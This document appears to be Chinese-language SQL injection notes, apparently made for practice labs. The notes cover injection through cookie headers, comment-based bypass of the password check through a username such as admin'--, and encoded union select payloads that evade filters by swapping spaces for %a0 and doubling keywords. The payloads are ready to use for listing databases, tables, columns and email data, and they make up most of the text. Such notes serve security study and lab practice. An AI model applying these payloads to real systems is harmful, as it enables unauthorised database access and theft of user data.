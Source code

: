 

## **基于cookie头部的POST注入**

在cookie后面输入一个'，尝试一下康康有没有报错，毕竟梦想还是要有的！
 判断列：
 ' order by x#

 获取表中数据

 'union select 1,2,列明 from 表名#

## **登录用户名中注入**

在注册账户的时候加入`'--`或者`#`可以在修改密码的时候跳过密码认证直接修改

即是如：
admin'--
ADMIN' #

在查询或者改密码的时候会注释掉后面的语句从而进行绕过注入。

## **过滤了注释和空格的注入**

使用16进制编码绕过 
```html
确认字段数


?id=0%27union%a0select%a01,2,3,4%a0%26%26%a0%271%27=%271
?id=0%27union%a0select%a01,2,3%a0%26%26%a0%271%27=%271
获取当前使用的数据库


?id=0%27union%a0select%a01,database(),3%a0%26%26%a0%271%27=%271
获取表信息


?id=0%27union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security'%26%26%a0%271%27=%271


获取列信息
?id=0%27union%a0select%a01,group_concat(column_name),3%a0from%a0infoorrmation_schema.columns%a0where%a0table_schema='security'%a0anandd%a0table_name='emails'%26%26%a0%271%27=%271


最后获取数据，发现提取不了

?id=0%27%a0union%a0select%a01,email_id,3%a0from%a0emails%26%26%a0%271%27=%271

```

## **联合注入`union select`**
基础语句结构为--查数据库
```
a'union select 1,2,database() %23
  联合注入函数  列数  数据库  
```
